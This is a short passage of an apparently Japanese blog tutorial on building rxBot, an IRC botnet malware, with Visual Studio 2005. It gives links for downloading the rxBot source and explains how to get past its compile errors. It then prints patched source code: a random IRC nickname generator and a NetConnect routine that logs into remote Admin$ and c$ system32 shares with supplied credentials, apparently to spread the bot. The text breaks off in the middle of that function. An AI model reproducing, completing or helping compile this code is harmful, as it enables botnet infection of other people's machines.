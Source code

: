 ・Windows 7 Thinkpad T410i
・Visual Studio 2005


■0x03.) ソースコードの在り処

http://www.filecrop.com/rxbot.html
http://www.codeforge.cn/s/0/rxbot


■0x04.) 手始めにビルドしたいんだけどどうすればいいのか

　ビルドする際に、プロジェクトのプロパティからC/C++-警告レベルを非表示に
して下さい。実際にビルドすると以下のエラーが表示されたので取り除いてみま
した。

-----
1>.\rndnick.cpp(52) : error C2065: 'i' : 定義されていない識別子です。
1>.\netbios.cpp(69) : error C2065: 'i' : 定義されていない識別子です。
char *rndnickletter(char *strbuf)
{	
    srand(GetTickCount());	
        int i;
	int randlen = (rand()%3)+maxrand;
	
	// int i = 0; として宣言されていたのでスコープを抜けたstrbuf[i] = '\0'にエラー発生
	for (i=0; i < randlen; i++) 
		strbuf[i] = (rand()%26)+97;
	strbuf[i] = '\0';

	return (strbuf);
}


BOOL NetConnect(char *szUsername, char *szPassword, char *szServer, EXINFO exinfo)
{
	int i;
	NETRESOURCE nr;
	memset(&nr,0,sizeof(NETRESOURCE));
	nr.lpRemoteName=szServer;
	nr.dwType=RESOURCETYPE_DISK;
	nr.lpLocalName=NULL;
	nr.lpProvider=NULL;

	// Call the WNetAddConnection2 function to make the connection,
	//   specifying a persistent connection.
	DWORD dwResult = fWNetAddConnection2(&nr, (LPSTR)szPassword, (LPSTR)szUsername, 0);
	if(dwResult != NO_ERROR) {
		Sleep (10);
		fWNetCancelConnection2(szServer,CONNECT_UPDATE_PROFILE,TRUE);
		return FALSE; 
	}

	WCHAR wszNetbios[200], wszFilename[MAX_PATH];
	char szRemoteFile[MAX_PATH], buffer[IRCLINE];
	char *sharepath[]={"Admin$\\system32","c$\\winnt\\system32","c$\\windows\\system32","c","d"};
